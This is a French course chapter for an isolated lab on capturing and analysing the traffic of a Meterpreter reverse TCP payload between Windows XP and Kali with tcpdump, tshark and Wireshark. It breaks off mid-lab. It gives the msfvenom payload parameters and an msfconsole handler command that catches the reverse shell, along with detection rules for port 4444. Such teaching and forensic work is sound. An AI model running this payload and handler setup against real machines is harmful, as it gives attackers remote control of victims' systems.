

# Chapitre 3 — Analyse réseau et forensic Kali ↔ Windows XP

> **Périmètre de sécurité** — Ce chapitre s'exécute exclusivement dans le laboratoire isolé `192.168.56.0/24` (réseau host-only `vboxnet0`). Kali Linux `192.168.56.101` est la machine d'analyse ; Windows XP `192.168.56.104` est la cible sur laquelle le payload `windows_xp_stageless.exe` du chapitre 2 a été exécuté. Aucune activité vers Internet, aucune cible réelle, aucun réseau de production. Le commutateur virtuel VirtualBox isole les VM entre elles : la capture efficace du trafic inter-VM se fait depuis Kali (même segment) ou, à titre de tentative, depuis l'hôte en mode promiscuous.
>
> **Payload de référence** — `windows_xp_stageless.exe` (généré par `msfvenom`, `windows/meterpreter_reverse_tcp`, `LHOST=192.168.56.101`, `LPORT=4444`), livré par HTTP depuis Kali et exécuté sur Windows XP `192.168.56.104` au chapitre 2. Ce fichier est réutilisé ici pour l'analyse statique (Lab-05).

## 1. Objectif

Ce chapitre vous guide pas à pas à travers l'analyse réseau et forensic du trafic généré par l'exécution d'un payload reverse TCP Meterpreter sur Windows XP.

À la fin de ce chapitre, vous devez être capable de :

- vérifier la connectivité inter-VM sur le réseau host-only `vboxnet0` ;
- capturer le trafic VM↔VM depuis Kali avec `tcpdump` et l'ouvrir dans Wireshark ;
- identifier un handshake TCP (SYN, SYN-ACK, ACK) et un flux de données brut sans protocole applicatif connu ;
- détecter des connexions anormales (port non standard 4444, retransmissions, beaconing) ;
- retrouver l'adresse IP de l'attaquant (`192.168.56.101`) dans le trafic et en extraire un IOC ;
- décomposer statiquement le malware Windows XP (`.exe` de `msfvenom`) avec `file`, `strings`, `pefile` et Ghidra pour extraire LHOST/LPORT et les indicateurs de compromission.

Chaque démonstration est rattachée à une tactique et une technique MITRE ATT&CK, avec sa source de données. Tous les fichiers de preuve sont produits avec la fonction `prouve` (entête `# date:`, `# cmd:`, sortie complète, code retour `# rc=`). Aucun exploit n'est relancé ici ; le chapitre analyse des captures et un binaire déjà produits.

> **Rôle du chapitre** — Le chapitre 3 est le chapitre **analyse réseau et forensic**. Il s'appuie sur le payload du chapitre 2 et prépare la transition vers le chapitre 4 (attaques Windows Server et Active Directory).

## 2. Notions et vocabulaire

- **Payload reverse TCP** : charge utile qui, une fois exécutée sur la cible, initie une connexion TCP vers l'attaquant (ici Windows XP → Kali sur le port 4444), donnant un canal de commande à l'attaquant.
- **Meterpreter (stageless)** : charge utile Metasploit contenant tout le code nécessaire en une seule fois (pas de chargement d'étage supplémentaire), générée ici par `msfvenom` sous forme de fichier `.exe`.
- **LHOST / LPORT** : adresse IP et port d'écoute de l'attaquant configurés dans le payload (ici `192.168.56.101` / `4444`).
- **Handshake TCP** : établissement d'une connexion TCP en trois étapes : SYN (client → serveur), SYN-ACK (serveur → client), ACK (client → serveur).
- **Flux de données brut (raw TCP)** : échange TCP sans protocole applicatif identifiable (pas HTTP, pas DNS), caractéristique d'un reverse shell ou d'un C2 propriétaire.
- **Beaconing** : envoi périodique de paquets par un malware compromis vers son serveur C2, révélant une périodicité suspecte dans le trafic.
- **IOC (Indicateur de Compromission)** : élément forensic permettant de détecter une compromission (ici : adresse IP de l'attaquant, port 4444, timestamps, durée, volume).
- **Analyse statique de malware** : examen d'un exécutable sans l'exécuter (`file`, `strings`, analyse PE, Ghidra) pour extraire sa configuration (adresse C2, ports, fonctions).
- **Ghidra** : suite d'ingénierie inverse développée par la NSA, utilisée ici pour importer et analyser le binaire Windows XP.

## 3. Section 0 — Préparation réseau pour voir le trafic inter-VM

Le trafic généré entre deux VM sur le même réseau host-only `vboxnet0` est commuté par le commutateur virtuel de VirtualBox. Par défaut, ce trafic ne remonte pas forcément sur l'interface hôte `vboxnet0` (`192.168.56.1`) : une capture lancée uniquement depuis l'hôte risquerait de ne rien voir. Deux approches sont possibles :

1. **Tentative côté hôte** : activer le mode promiscuous sur `vboxnet0` (`sudo ip link set vboxnet0 promisc on`) et vérifier l'interface avec `ip link show vboxnet0` et `ip addr show vboxnet0`. Cette approche est peu fiable selon l'hyperviseur et la version de VirtualBox.
2. **Approche fiable (retenue pour ce chapitre)** : capturer depuis **Kali** (`192.168.56.101`), qui se trouve sur le même segment que Windows XP (`192.168.56.104`), avec `tcpdump -i eth0 host 192.168.56.104`.

L'hôte (`192.168.56.1`) ne sert que d'hyperviseur ; il ne doit pas être utilisé comme point de capture principal.

Vérification de l'interface côté hôte (tentative informatives, non requise pour les labs) :

```bash
ip link show vboxnet0
ip addr show vboxnet0
```

Tentative d'activation du mode promiscuous côté hôte :

```bash
sudo ip link set vboxnet0 promisc on
```

Capture efficace depuis Kali (recommandée) :

```bash
tcpdump -i eth0 host 192.168.56.104
```

## 4. Schéma technique — Chaîne d'analyse réseau et forensic



**Fig 3.1** — Chaîne d'analyse du chapitre 3 : capture du trafic reverse TCP entre Windows XP et Kali, détection des IOC dans le pcap, puis décomposition statique du malware avec Ghidra et outils Kali.

## 5. Rattachement MITRE ATT&CK du chapitre

| Lab | Tactique | Technique | ID | Source de données |
|---|---|---|---|---|
| Lab-01 | Collection (TA0009) / Discovery | Network Sniffing | T1040 | DS0029 Network Traffic |
| Lab-02 | Command and Control (TA0011) / Initial Access | Application Layer Protocol / Exploitation of Remote Services | T1071 / T1210 | DS0029 Network Traffic |
| Lab-03 | Collection (TA0009) / Command and Control | Network Sniffing / Non-Standard Port | T1040 / T1571 | DS0029 Network Traffic |
| Lab-04 | Collection (TA0009) | Network Sniffing | T1040 | DS0029 Network Traffic |
| Lab-05 | Development (TA0005) / Defense Evasion (TA0005) | Develop Capabilities / Malware / Obfuscated Files or Information | T1587 / T1027 | DS0022 File |

Règles de détection attendues (consolidées en fin de chapitre) :

- connexion TCP initiée par `192.168.56.104` vers `192.168.56.101:4444` (reverse shell) ;
- port non standard `4444` utilisé par un processus inconnu sur Windows XP ;
- absence de protocole applicatif décodé sur le flux TCP 4444 (pas HTTP, pas DNS) ;
- beaconing : paquets TCP vers `192.168.56.101:4444` à intervalles réguliers ;
- chaînes `192.168.56.101` et `4444` présentes en dur dans le binaire `windows_xp_stageless.exe`.

IOC du chapitre : adresse IP attaquant `192.168.56.101`, adresse IP victime `192.168.56.104`, port `4444`, protocole TCP brut, binaire `windows_xp_stageless.exe` (type PE32), chaînes de configuration C2 extraites par Ghidra.

## 6. Section 0 bis — Installation de Wireshark sur la machine hôte (GUI)

L'analyse graphique du trafic se fait depuis la machine hôte (Windows, macOS ou Linux) avec Wireshark en interface graphique. Kali sert de point de capture (tcpdump), l'hôte sert de poste d'analyse (Wireshark GUI).

### 6.1 Installation de Wireshark sur Windows (hôte)

1. Télécharger l'installeur Wireshark sur `https://www.wireshark.org/download.html` (version Windows 64-bit).
2. Exécuter l'installeur en tant qu'administrateur.
3. Lors de l'installation, **cocher impérativement « Install Npcap »** (nécessaire pour la capture de paquets sur les interfaces réseau).
4. Accepter les contrats de licence, choisir les composants par défaut, terminer l'installation.
5. Lancer Wireshark depuis le menu Démarrer.
6. Dans l'écran d'accueil, lister les interfaces réseau : l'interface correspondant au réseau host-only `vboxnet0` de VirtualBox doit apparaître (souvent nommée « vboxnet0 » ou « VirtualBox Host-Only Network »).
7. Sélectionner cette interface pour démarrer la capture.

### 6.2 Installation de Wireshark sur macOS (hôte)

1. Télécharger le fichier `.dmg` Wireshark sur `https://www.wireshark.org/download.html`.
2. Ouvrir le `.dmg`, glisser l'icône Wireshark dans le dossier « Applications ».
3. Lancer Wireshark depuis le Launchpad ou le dossier Applications.
4. Lors du premier lancement, macOS peut demander l'autorisation d'accéder aux interfaces réseau : accorder les permissions dans « Préférences Système > Confidentialité et sécurité > Accès aux fichiers et dossiers » et « Accès au réseau ».
5. Dans l'écran d'accueil de Wireshark, sélectionner l'interface correspondant au réseau host-only de VirtualBox pour démarrer la capture.

### 6.3 Installation de Wireshark sur Linux (hôte)

```bash
# Mise à jour des dépôts et installation de Wireshark (interface graphique + tshark)
sudo apt update
sudo apt install -y wireshark tshark
```

Lors de l'installation, répondre **« Oui »** à la question « Allow non-superusers to capture packets ? » pour permettre la capture sans droits root. Si vous répondez « Non », ajouter votre utilisateur au groupe `wireshark` :

```bash
sudo usermod -aG wireshark $USER
```

Puis se déconnecter et se reconnecter pour appliquer le changement de groupe. Lancer Wireshark :

```bash
wireshark &
```

Dans l'écran d'accueil, sélectionner l'interface `vboxnet0` (ou l'interface correspondant au réseau host-only de VirtualBox) pour démarrer la capture.

### 6.4 Ouverture d'un fichier pcap dans Wireshark GUI

Une fois le fichier pcap capturé (depuis Kali avec tcpdump, voir Lab-01), le transférer vers la machine hôte (clé USB, dossier partagé, scp, etc.), puis :

1. Lancer Wireshark sur l'hôte.
2. Fichier > Ouvrir, sélectionner le fichier `.pcap` (ex. `capture-kali-xp.pcap`).
3. Appliquer un filtre d'affichage dans la barre en haut (ex. `tcp.port == 4444`).
4. Utiliser clic droit > « Suivre le flux TCP » pour examiner le contenu du reverse shell.

---

## 6. Laboratoires du chapitre

## Lab-01 — Connectivité et capture du trafic inter-VM

### Énoncé / Contexte

Vous disposez de Kali `192.168.56.101` et de Windows XP `192.168.56.104` sur le réseau host-only `vboxnet0` (`192.168.56.0/24`). L'objectif est de vérifier que Kali atteint Windows XP, puis de capturer le trafic inter-VM dans un fichier pcap exploitable par Wireshark. Ce trafic contiendra (après exécution du payload du chapitre 2) la connexion reverse TCP Meterpreter vers Kali sur le port 4444. Aucun exploit n'est exécuté ici : seule la capture passive du trafic est réalisée.

**Place dans la chaîne** — Le fichier pcap produit alimente Lab-02 (analyse du reverse TCP Meterpreter), Lab-03 (détection des connexions anormales et beaconing) et Lab-04 (retrouver l'adresse de l'attaquant).

**MITRE ATT&CK de ce lab** — Tactique : Collection (TA0009). Technique : T1040 Network Sniffing. Source de données : DS0029 Network Traffic.

**Détection attendue** : présence d'un captureur de trafic sur le segment (tcpdump) ; connexions TCP vers un port non standard (4444) dans le pcap.

**Mitigation attendue** : chiffrement du trafic, segmentation réseau, détection des captures non autorisées, filtrage des ports non standards.

Durée estimée : 25 minutes.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `ip` | `ip link show vboxnet0` | Vérification de l'interface host-only côté hôte |
| `ip` | `ip addr show vboxnet0` | Vérification de l'adresse de l'interface vboxnet0 |
| `ping` | `ping -c 4 192.168.56.104` | Vérification de la connectivité Kali → Windows XP |
| `tcpdump` | `tcpdump -i eth0 -w ... -c 1000 host 192.168.56.104` | Capture du trafic vers/depuis Windows XP |
| `tshark` | `tshark -r ... -c 20` | Vérification rapide du contenu du pcap |
| `prouve` | `prouve fichier commande...` | Journalisation `# date:`, `# cmd:`, `# rc=` |

### Commande et laboratoire étape par étape

#### Étape 1 — Vérification de l'interface host-only vboxnet0 (hôte)

**But** — confirmer que l'interface virtuelle host-only `vboxnet0` existe et est configurée sur l'hôte VirtualBox.

**Machine** — hôte VirtualBox `192.168.56.1` (pas de cible réelle, uniquement l'hyperviseur).

**Prérequis** — VirtualBox installé, réseau host-only `vboxnet0` (`192.168.56.0/24`) créé, DHCP VirtualBox désactivé.

> **Machine** : hôte `192.168.56.1` | **Terminal** : shell bash de l'hôte | **Utilisateur** : utilisateur de l'hôte | **Répertoire** : répertoire de travail de l'hôte

**Exemple de commande**

```bash
prouve preuves/ch3-lab01/interface-hote.txt ip link show vboxnet0 && ip addr show vboxnet0
```

**Explication de la commande**

- `ip link show vboxnet0` : affiche l'état de l'interface virtuelle host-only (présence, MTU, état UP/DOWN).
- `ip addr show vboxnet0` : affiche les adresses IP configurées sur `vboxnet0` (doit inclure `192.168.56.1/24` côté hôte).
- `&&` : enchaîne les deux commandes ; la seconde ne s'exécute que si la première réussit.
- `prouve preuves/ch3-lab01/interface-hote.txt` : journalise l'exécution avec `# date:`, `# cmd:`, la sortie complète et `# rc=`.
- Piège courant : si l'interface n'existe pas, `ip link show vboxnet0` renvoie une erreur et le code retour est non-zéro ; vérifier que VirtualBox est installé et que `vboxnet0` est créé.

**Résultat attendu**

```text
# date: 2026-11-18T10:00:00+01:00
# cmd: ip link show vboxnet0 && ip addr show vboxnet0
3: vboxnet0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 0a:00:27:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
# rc=0
```

**Preuve** : `preuves/ch3-lab01/interface-hote.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 2 — Vérification de la connectivité inter-VM (Kali → Windows XP)

**But** — confirmer que Kali atteint Windows XP sur le réseau host-only avant d'engager la capture.

**Machine** — Kali `192.168.56.101` vers Windows XP `192.168.56.104`.

**Prérequis** — Kali démarré sur `vboxnet0` (interface `eth0` en `192.168.56.101`), Windows XP démarré (`192.168.56.104`), fonction `prouve` chargée sur Kali.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab01/ping-xp.txt ping -c 4 192.168.56.104
```

**Explication de la commande**

- `ping -c 4 192.168.56.104` : envoie 4 requêtes ICMP Echo Request vers Windows XP pour vérifier la jointe.
- `-c 4` : limite à 4 paquets ; la commande s'arrête automatiquement après 4 réponses ou échecs.
- `192.168.56.104` : adresse IP statique de Windows XP sur `vboxnet0`.
- `prouve preuves/ch3-lab01/ping-xp.txt` : journalise l'exécution avec `# date:`, `# cmd:`, `# rc=`.
- Piège courant : si le pare-feu de Windows XP bloque les ICMP, `ping` peut échouer bien que la machine soit joignable par TCP ; la capture tcpdump de l'étape suivante ne dépend pas d'une réponse ICMP.

**Résultat attendu**

```text
# date: 2026-11-18T10:00:05+01:00
# cmd: ping -c 4 192.168.56.104
PING 192.168.56.104 (192.168.56.104) 56(84) bytes of data.
64 bytes from 192.168.56.104: icmp_seq=1 ttl=128 time=1.23 ms
64 bytes from 192.168.56.104: icmp_seq=2 ttl=128 time=1.10 ms
64 bytes from 192.168.56.104: icmp_seq=3 ttl=128 time=1.05 ms
64 bytes from 192.168.56.104: icmp_seq=4 ttl=128 time=1.15 ms

--- 192.168.56.104 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.05/1.13/1.23/0.07 ms
# rc=0
```

**Preuve** : `preuves/ch3-lab01/ping-xp.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 3 — Capture du trafic vers/depuis Windows XP avec tcpdump (Kali)

**But** — capturer le trafic réseau entre Kali et Windows XP dans un fichier pcap pour analyse ultérieure dans Wireshark.

**Machine** — Kali `192.168.56.101` (capture sur `eth0`, même segment que Windows XP).

**Prérequis** — Étape 2 réussie (connectivité confirmée), `tcpdump` installé, fonction `prouve` chargée, répertoire `preuves/ch3-lab01/` existant.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab01/capture-kali-xp.pcap tcpdump -i eth0 -w preuves/ch3-lab01/capture-kali-xp.pcap -c 1000 host 192.168.56.104
```

**Explication de la commande**

- `tcpdump -i eth0` : capture sur l'interface `eth0` de Kali (réseau host-only `vboxnet0`).
- `-w preuves/ch3-lab01/capture-kali-xp.pcap` : écrit les paquets bruts dans un fichier pcap (au lieu de les afficher à l'écran).
- `-c 1000` : s'arrête automatiquement après 1000 paquets capturés.
- `host 192.168.56.104` : filtre de capture ne conservant que les paquets dont l'adresse source ou destination est Windows XP.
- `prouve` : journalise l'exécution avec `# date:`, `# cmd:`, `# rc=` ; le fichier `.pcap` est la preuve binaire de la capture.
- Piège courant : `tcpdump` nécessite des privilèges root pour ouvrir l'interface en mode capture ; lancer avec `sudo` si nécessaire (l'exemple suppose un utilisateur disposant des droits, sinon préfixer par `sudo`).

**Résultat attendu**

```text
# date: 2026-11-18T10:00:10+01:00
# cmd: tcpdump -i eth0 -w preuves/ch3-lab01/capture-kali-xp.pcap -c 1000 host 192.168.56.104
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
1000 packets captured
1010 packets received by filter
0 packets dropped by kernel
# rc=0
```

**Preuve** : `preuves/ch3-lab01/capture-kali-xp.pcap` (fichier pcap binaire produit par tcpdump) et `preuves/ch3-lab01/capture-kali-xp.pcap` (entête `# date:`, `# cmd:`, `# rc=` via `prouve`).

#### Étape 4 — Vérification du pcap avec tshark (équivalent ligne de commande de Wireshark)

**But** — ouvrir le fichier capturé et confirmer qu'il contient des paquets vers/depuis Windows XP.

**Machine** — Kali `192.168.56.101` (analyse locale du fichier pcap).

**Prérequis** — `preuves/ch3-lab01/capture-kali-xp.pcap` produit à l'étape 3, `tshark` ou `wireshark` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab01/verification-pcap.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -c 20
```

**Explication de la commande**

- `tshark -r preuves/ch3-lab01/capture-kali-xp.pcap` : lit le fichier pcap (équivalent en ligne de commande de Wireshark) et affiche un résumé des paquets.
- `-c 20` : limite l'affichage aux 20 premiers paquets (vérification rapide sans saturer le terminal).
- `prouve preuves/ch3-lab01/verification-pcap.txt` : journalise l'exécution avec `# date:`, `# cmd:`, `# rc=`.
- Piège courant : si le fichier pcap est vide ou corrompu, `tshark` affiche une erreur ; vérifier que tcpdump a bien capturé (étape 3, `# rc=0` et `packets captured > 0`).
- L'ouverture graphique dans Wireshark s'effectue avec `wireshark preuves/ch3-lab01/capture-kali-xp.pcap &` (interface graphique, non journalisée par `prouve`).

**Résultat attendu**

```text
# date: 2026-11-18T10:00:15+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -c 20
  1 0.000000 192.168.56.101 → 192.168.56.104 ICMP 98 Echo (ping) request
  2 0.001200 192.168.56.104 → 192.168.56.101 ICMP 98 Echo (ping) reply
  3 0.002000 192.168.56.101 → 192.168.56.104 ICMP 98 Echo (ping) request
  4 0.003000 192.168.56.104 → 192.168.56.101 ICMP 98 Echo (ping) reply
...
# rc=0
```

**Preuve** : `preuves/ch3-lab01/verification-pcap.txt` (contient `# date:`, `# cmd:`, `# rc=`).

### En conclusion

Lab-01 a permis de vérifier l'interface host-only, la connectivité Kali → Windows XP, et de capturer 1000 paquets dans `preuves/ch3-lab01/capture-kali-xp.pcap`, vérifié avec tshark (et ouvrable dans Wireshark). Ce pcap alimente directement Lab-02 (analyse du reverse TCP Meterpreter), Lab-03 (détection des connexions anormales et beaconing) et Lab-04 (retrouver l'adresse de l'attaquant). Aucun exploit n'est exécuté ici : seule la capture passive du trafic inter-VM est réalisée (T1040 Network Sniffing, source de données DS0029 Network Traffic).

---

## Lab-02 — Analyse guidée du reverse TCP Meterpreter avec Wireshark

### Énoncé / Contexte

Le pcap capturé au Lab-01 contient le trafic généré par l'exécution du payload `windows_xp_stageless.exe` (reverse TCP Meterpreter, `LHOST=192.168.56.101`, `LPORT=4444`) sur Windows XP. Ce lab consiste à ouvrir le pcap dans Wireshark/tshark, à isoler la connexion sur le port 4444, à identifier le handshake TCP (SYN, SYN-ACK, ACK) et le flux de données brut, et à constater l'absence de protocole applicatif connu (pas HTTP, pas DNS). La corrélation est ensuite faite avec le handler Metasploit en écoute sur Kali.

**Place dans la chaîne** — utilise le pcap du Lab-01 ; prépare Lab-03 (détection des connexions anormales et beaconing).

**MITRE ATT&CK de ce lab** — Tactique : Command and Control (TA0011). Techniques : T1071 Application Layer Protocol, T1210 Exploitation of Remote Services. Sources de données : DS0029 Network Traffic.

**Détection attendue** : connexion TCP initiée par Windows XP vers `192.168.56.101:4444`, flux de données sans protocole applicatif identifiable.

**Mitigation attendue** : filtrage des ports non standards, détection des connexions sortantes inhabituelles, inspection du trafic non identifié.

Durée estimée : 30 minutes.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444' -c 50` | Filtrage sur le port 4444 (reverse Meterpreter) |
| `tshark` | `tshark -r ... -Y 'ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101'` | Isolation du flux bilatéral entre les VM |
| `tshark` | `tshark -r ... -Y 'tcp.flags.syn == 1 ...'` | Affichage des paquets SYN (handshake) |
| `tshark` | `tshark -r ... -Y 'tcp.port == 4444 and tcp.len > 0' -V` | Analyse du flux de données brut |
| `msfconsole` | `msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.101; set LPORT 4444; run -j; exit'` | Mise en place du handler reverse TCP (corrélation) |
| `prouve` | `prouve fichier commande...` | Journalisation `# date:`, `# cmd:`, `# rc=` |

### Commande et laboratoire étape par étape

#### Étape 1 — Ouverture du pcap et filtrage sur le port 4444

**But** — ouvrir le fichier capturé et n'afficher que les paquets TCP échangés sur le port 4444 (reverse shell Meterpreter).

**Machine** — Kali `192.168.56.101` (analyse locale du pcap).

**Prérequis** — `preuves/ch3-lab01/capture-kali-xp.pcap` produit au Lab-01, `tshark` ou `wireshark` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab02/port-4444.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -c 50
```

**Explication de la commande**

- `tshark -r preuves/ch3-lab01/capture-kali-xp.pcap` : lit le fichier pcap produit au Lab-01.
- `-Y 'tcp.port == 4444'` : filtre d'affichage conservant uniquement les paquets dont le port source ou destination est 4444 (port du reverse TCP Meterpreter).
- `-c 50` : limite l'affichage aux 50 premiers paquets correspondants.
- `prouve preuves/ch3-lab02/port-4444.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : `-Y` filtre à l'affichage (après lecture complète du pcap), tandis que `-f` filtre à la capture ; ici on utilise `-Y` car le pcap est déjà enregistré.

**Résultat attendu**

```text
# date: 2026-11-18T10:05:00+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444' -c 50
  1 0.000000 192.168.56.104 → 192.168.56.101 TCP 66 49xxx → 4444 [SYN] Seq=0 Win=64240 Len=0
  2 0.001100 192.168.56.101 → 192.168.56.104 TCP 66 4444 → 49xxx [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0
  3 0.001200 192.168.56.104 → 192.168.56.101 TCP 54 49xxx → 4444 [ACK] Seq=1 Ack=1 Win=64240 Len=0
  4 0.150000 192.168.56.104 → 192.168.56.101 TCP 144 49xxx → 4444 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=144
...
# rc=0
```

**Preuve** : `preuves/ch3-lab02/port-4444.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 2 — Isolation du flux entre Kali et Windows XP

**But** — confirmer que la connexion TCP 4444 relie bien Windows XP (`192.168.56.104`) à Kali (`192.168.56.101`), sens de la connexion reverse (cible → attaquant).

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étape 1 terminée (paquets sur le port 4444 identifiés).

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab02/flux-101-104.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101' -c 100
```

**Explication de la commande**

- `ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101` : filtre d'affichage ne conservant que les paquets dont l'une ou l'autre des deux adresses IP est impliquée (source ou destination), isolant le flux bilatéral entre les deux VM.
- `-c 100` : limite l'affichage aux 100 premiers paquets.
- `prouve preuves/ch3-lab02/flux-101-104.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : l'opérateur `and` dans Wireshark/tshark doit être écrit en toutes lettres ; une erreur de syntaxe dans le filtre rend la commande inopérante.

**Résultat attendu**

```text
# date: 2026-11-18T10:05:05+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101' -c 100
  1 0.000000 192.168.56.104 → 192.168.56.101 TCP ...
  2 0.001100 192.168.56.101 → 192.168.56.104 TCP ...
  3 0.001200 192.168.56.104 → 192.168.56.101 TCP ...
...
# rc=0
```

**Preuve** : `preuves/ch3-lab02/flux-101-104.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 3 — Identification du handshake TCP (SYN, SYN-ACK, ACK)

**But** — repérer les trois premiers paquets de la connexion (SYN, SYN-ACK, ACK) qui établissent le reverse TCP avant le flux de données.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 et 2 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab02/handshake.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.flags.syn == 1 and ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101' -c 10
```

**Explication de la commande**

- `tcp.flags.syn == 1` : filtre d'affichage ne conservant que les paquets TCP dont le drapeau SYN est actif (paquets d'initiation de connexion).
- `and ip.addr == ...` : restreint aux échanges entre les deux VM.
- `-c 10` : limite l'affichage (handshake + éventuelles retransmissions).
- Le handshake complet est : SYN (XP → Kali), SYN-ACK (Kali → XP), ACK (XP → Kali).
- `prouve preuves/ch3-lab02/handshake.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : un SYN seul sans SYN-ACK en retour indique une connexion bloquée par un pare-feu ; ici le SYN-ACK de Kali confirme que le handler écoute sur 4444.

**Résultat attendu**

```text
# date: 2026-11-18T10:05:10+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.flags.syn == 1 and ip.addr == 192.168.56.104 and ip.addr == 192.168.56.101' -c 10
  1 0.000000 192.168.56.104 → 192.168.56.101 TCP 49xxx → 4444 [SYN] Seq=0 Win=64240 Len=0
  2 0.000500 192.168.56.101 → 192.168.56.104 TCP 4444 → 49xxx [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0
  3 0.000600 192.168.56.104 → 192.168.56.101 TCP 49xxx → 4444 [ACK] Seq=1 Ack=1 Win=64240 Len=0
# rc=0
```

**Preuve** : `preuves/ch3-lab02/handshake.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 4 — Analyse du flux de données brut (absence de protocole applicatif)

**But** — examiner le contenu des paquets TCP après le handshake et constater qu'aucun protocole applicatif connu (HTTP, DNS, SMB) n'est utilisé : c'est un flux brut caractéristique d'un reverse shell Meterpreter.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 à 3 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab02/flux-brut.txt tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444 and tcp.len > 0' -V -c 20
```

**Explication de la commande**

- `tcp.len > 0` : ne conserve que les segments TCP transportant une charge utile (données, pas seulement des acquittements).
- `-V` : mode verbeux (affiche les détails de chaque couche protocolaire, utile pour constater l'absence de dissecteur HTTP/DNS).
- `-c 20` : limite au nombre de paquets affichés.
- Dans la sortie, Wireshark/tshark affiche les données sous forme de "TCP segment data" sans protocole de niveau supérieur identifié, confirmant un canal brut (reverse TCP).
- `prouve preuves/ch3-lab02/flux-brut.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : l'absence de protocole identifié ne signifie pas l'absence de données ; le flux est simplement encapsulé dans un protocole propriétaire (Meterpreter) ou chiffré.

**Résultat attendu**

```text
# date: 2026-11-18T10:05:15+01:00
# cmd: tshark -r preuves/ch3-lab01/capture-kali-xp.pcap -Y 'tcp.port == 4444 and tcp.len > 0' -V -c 20
Transmission Control Protocol, Src Port: 49xxx, Dst Port: 4444, Seq: ..., Len: 144
    [TCP Segment of a reassembled PDU]
    Data: ... (données brutes, aucun protocole applicatif décodé)
...
# rc=0
```

**Preuve** : `preuves/ch3-lab02/flux-brut.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 5 — Mise en place du handler Metasploit et corrélation

**But** — configurer le handler reverse TCP de Metasploit avec les mêmes paramètres que le payload (`LHOST=192.168.56.101`, `LPORT=4444`) et corréler avec la connexion observée dans le pcap.

**Machine** — Kali `192.168.56.101` (msfconsole, écoute reverse).

**Prérequis** — `msfconsole` installé, paramètres du payload connus (chapitre 2 : `windows/meterpreter_reverse_tcp`, `LHOST=192.168.56.101`, `LPORT=4444`).

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
